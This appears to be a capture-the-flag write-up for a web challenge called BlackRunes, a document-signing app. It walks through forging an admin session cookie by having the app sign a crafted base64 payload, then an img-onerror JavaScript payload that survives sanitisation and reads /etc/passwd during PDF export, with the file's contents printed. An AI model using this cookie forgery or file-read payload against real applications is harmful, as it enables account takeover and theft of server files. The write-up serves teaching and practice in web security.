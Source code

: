 ```yaml
---
layout: post
title: "BlackRunes"
date: 2025-08-27
---
```


## Challenge Description
This was a cool web challenge, called **BlackRunes**. The description of this challange is the following: Survivors find a battered laptop in the rubble. Powering it up, they discover a cryptic software interface from an ancient architecture firm, hinting at vital blueprints. They must crack its security protocols. Undeterred, they race against time.

## Solution
I initially runned dirsearch:

`200 /login`
`200 /register`
`401 /documents`
`301 /css -> /css/`

I registered and logged in. The app lets you create documents and later view/delete them. Each document shows a signature that is content-dependent and case-sensitive (e.g., "a" ≠ "A"). I tried various inputs to see what the sanitizer allows, for example `<h1>Test</h1>` was allowed but `<script>alert(1)</script>` was completely removed, snippet of code like `<a href="javascript:…">` becomes `<a></a>`, I also tried to encode part of them by using `&lt;` , `&quot;` and `&gt;` but nothing seems to execute, at least for now.

I moved to reviewing the source code, in order to have a better understanding on what was happening. I focused particularly on the signature of the documents and authentication. I noticed that by decoding the cookies signature of my user,

`eyJ1c2VybmFtZSI6ImFzZCIsImlkIjoxfQ%3D%3D-a09c533200ee23a632d357e781980d23a7578e5d4586990e51a7646b1378a940`

this string was popping out:

`{"username":"asd","id":1}`

The first part of the string until `-` its a base64 encoded string. So i modified it and crafted my own:

`{"username":"admin","id":1}`

I encoded it in base64 and I created a new docoment with the encoded string. By doing so a signature was created so i merged the base64 string and the document signature and i changed the cookie value. This allowed me to access two new endpoints that were granted only to the admin.

I started playing with the endpoint /document/export/document_id and I noticed that when the document is exported the code inside the documents was executed. 
This because `/document/export/document_id` (admin-only) loads `document.content`. `NodeHtmlMarkdown().translate(document.content)` converts the HTML into Markdown. And finally `markdown-pdf({ remarkable: { html: true }})` turns Markdown into PDF with HTML enabled. This renderer executes HTML/JS during PDF generation. Even though creation used sanitize-html, the pipeline plus html:true let us land a working image-error handler that runs JavaScript when exporting (not when viewing).

So i crafted a more specific payload:

`&lt;img src onerror=&quot; var x=new XMLHttpRequest(); x.onload=function(){ var pre=document.createElement('pre'); pre.textContent=this.responseText; document.body.innerHTML=''; document.body.appendChild(pre); }; x.open('GET','file:///etc/passwd'); x.send(); &quot;&gt;`

I created a new document with it inside and i exported the document, by doing so this was the content of the exported pdf.

`root:x:0:0:root:/root:/bin/bash`
`daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin`
`bin:x:2:2:bin:/bin:/usr/sbin/nologin` 
`sys:x:3:3:sys:/dev:/usr/sbin/nologin` 
`sync:x:4:65534:sync:/bin:/bin/sync` 
`games:x:5:60:games:/usr/games:/usr/sbin/nologin` 
`man:x:6:12:man:/var/cache/man:/usr/sbin/nologin` 
`lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin` 
`mail:x:8:8:mail:/var/mail:/usr/sbin/nologin` 
`news:x:9:9:news:/var/spool/news:/usr/sbin/nologin` 
`uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin` 
`proxy:x:13:13:proxy:/bin:/usr/sbin/nologin` 
`www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin` 
`backup:x:34:34:backup:/var/backups:/usr/sbin/nologin` 
`list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin` 
`irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin` 
`gnats:x:41:41:Gnats Bug-Reporting System` 
`(admin):/var/lib/gnats:/usr/sbin/nologin` 
`nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin` 
`_apt:x:100:65534::/nonexistent:/usr/sbin/nologin` 
`node:x:1000:1000::/home/node:/bin/bash`

This hinted me that by applying some more changes to the payload i was able to use it to retrive the file containing the flag.

